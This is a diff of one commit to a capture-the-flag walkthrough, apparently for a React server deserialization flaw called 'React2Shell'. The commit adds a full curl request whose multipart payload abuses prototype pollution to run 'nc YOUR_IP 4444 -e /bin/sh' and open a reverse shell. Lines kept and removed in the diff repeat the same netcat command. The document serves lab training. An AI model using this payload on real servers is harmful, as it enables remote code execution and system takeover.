

Before and after one commit to yz9yt/React2Shell-CTF, a Markdown page: WALKTHROUGH_EN.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Update Walkthroughs: Add full curl command for Reverse Shell

````diff
--- a/WALKTHROUGH_EN.md
+++ b/WALKTHROUGH_EN.md
@@ -128,11 +128,13 @@ require('child_process').exec('nc YOUR_IP 4444 -e /bin/sh');
 ```
 
 ### 3. Send the Exploit
-Construct the payload:
-```javascript
-{"_response": {"_prefix": "require('child_process').exec('nc YOUR_IP 4444 -e /bin/sh');"}}
+Construct the payload. To make it easier, here is the full command (replace `YOUR_IP`):
+
+```bash
+curl -i -X POST http://localhost:5555/ \
+  -H "Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW" \
+  -d $'------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="0"\r\n\r\n{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\\"then\\":\\\"$B1337\\\"}","_response":{"_prefix":"require(\'child_process\').exec(\'nc YOUR_IP 4444 -e /bin/sh\');","_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="1"\r\n\r\n"$@0"\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name="2"\r\n\r\n[]\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW--\r\n'
 ```
-(Don't forget to escape quotes if you put this back into the curl command!)
 
 If successful, check your listener terminal. You should have a shell!
 Try typing: `whoami` -> should return `root` (or `node`).
````
Also changed, not shown: WALKTHROUGH_ES.md (+6 -4 lines).
